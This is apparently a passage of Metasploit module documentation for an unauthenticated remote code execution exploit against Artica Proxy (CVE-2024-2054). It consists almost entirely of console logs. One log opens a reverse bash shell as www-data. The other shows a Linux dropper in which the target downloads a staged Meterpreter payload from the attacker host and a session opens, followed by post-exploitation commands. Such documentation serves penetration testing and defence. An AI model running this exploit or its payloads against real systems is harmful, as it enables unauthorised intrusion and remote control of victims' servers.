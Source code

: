 ```msf
msf exploit(linux/http/artica_proxy_unauth_rce_cve_2024_2054) > set target 1
target => 1
msf exploit(linux/http/artica_proxy_unauth_rce_cve_2024_2054) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.4:9000 can be exploited.
[+] The target is vulnerable. Artica version: 4.50
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Deleted /usr/share/artica-postfix/wizard/cuckoo.php
[*] Command shell session 16 opened (192.168.201.8:4444 -> 192.168.201.4:46286) at 2024-03-15 17:48:40 +0000

uname -a
Linux artica-applianc 4.19.0-24-amd64 #1 SMP Debian 4.19.282-1 (2023-04-29) x86_64 GNU/Linux
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
### Target 2 - Linux Dropper `linux/x64/meterpreter/reverse_tcp` session
```msf
msf exploit(linux/http/artica_proxy_unauth_rce_cve_2024_2054) > set target 2
target => 2
msf exploit(linux/http/artica_proxy_unauth_rce_cve_2024_2054) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.4:9000 can be exploited.
[+] The target is vulnerable. Artica version: 4.50
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.8:1981/U835crbue3yBo
[*] Client 192.168.201.4 (Wget/1.20.1 (linux-gnu)) requested /U835crbue3yBo
[*] Sending payload to 192.168.201.4 (Wget/1.20.1 (linux-gnu))
[*] Sending stage (3045380 bytes) to 192.168.201.4
[+] Deleted /usr/share/artica-postfix/wizard/cuckoo.php
[*] Meterpreter session 17 opened (192.168.201.8:4444 -> 192.168.201.4:35246) at 2024-03-15 17:50:04 +0000
[*] Command Stager progress - 100.00% done (119/119 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : artica-applianc.domain.tld
OS           : Debian 10.13 (Linux 4.19.0-24-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: www-data
meterpreter >
```

## Limitations
No limitations.
